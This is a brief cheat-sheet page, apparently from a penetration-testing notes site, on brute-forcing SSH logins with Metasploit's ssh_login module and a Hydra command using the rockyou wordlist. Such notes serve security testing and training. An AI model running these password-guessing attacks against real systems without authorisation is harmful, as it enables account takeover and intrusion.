 ```yaml
---
title: SSH
parent: Other Passwords
layout: default
nav_order: 2
---
```


1. Fire up `msfconsole`, search `ssh_login`. Enter `info` to see all options. Recommended: set `stoponsuccess` and `verbose` to be true.
2. Hydra:\
   `hydra -l username -P /usr/share/seclists/rockyou.txt -s PORT ssh://127.0.0.1`